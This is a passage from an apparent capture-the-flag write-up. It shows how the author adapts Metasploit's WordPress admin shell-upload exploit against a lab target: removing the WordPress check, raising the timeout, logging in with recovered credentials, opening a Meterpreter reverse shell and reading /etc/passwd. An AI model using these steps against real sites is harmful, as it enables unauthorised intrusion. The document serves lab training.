 ```
'The target does not appear to be using WordPress'
```

Just because I *know* target uses WordPress, I decide to comment out the line throwing the exception from the exploit:

```ruby
fail_with(Failure::NotFound, 'The target does not appear to be using WordPress') unless wordpress_and_online?
```

Surprisingly enough this worked. I'm not sure if it was some script-kiddie precaution or the WordPress installation was not standard.

Above tweak wasn't enough though. The exploit did authenticate in WordPress but failed to upload a payload with error:

```
Unexpected reply error : Failed to upload the payload.
```

I look up the place in code where the exception is thrown:

```ruby
res = send_request_cgi(
      'method'    => 'POST',
      'uri'       => wordpress_url_admin_update,
      'ctype'     => "multipart/form-data; boundary=#{data.bound}",
      'data'      => data.to_s,
      'cookie'    => cookie,
      'vars_get'  => { 'action' => 'upload-plugin' }
    )

    if res && res.code == 200
      vprint_status("Uploaded plugin #{name}")
      return true
    else
      vprint_error("Server responded with code #{res.code}") if res
      vprint_error("Failed to upload plugin #{name}")
      return false
    end
```
According to code where the exception is thrown, the exploit should also print out the status code, but it doesn't... unless there isn't any reply at all. Timeout? Let's check out:

```bash
msf exploit(wp_admin_shell_upload) > set HttpClientTimeout 300
msf exploit(wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 192.168.0.10:4444 
[*] Authenticating with WordPress using elliot:ER28-0652...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/XNNqYnXTer/QRrAPGncgf.php...
[*] Sending stage (33986 bytes) to 192.168.0.105
[*] Meterpreter session 1 opened (192.168.0.10:4444 -> 192.168.0.105:43825) at 2017-09-19 13:58:15 -0400
```
Bingo! Let's poke around in shell:
```bash
shell
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
```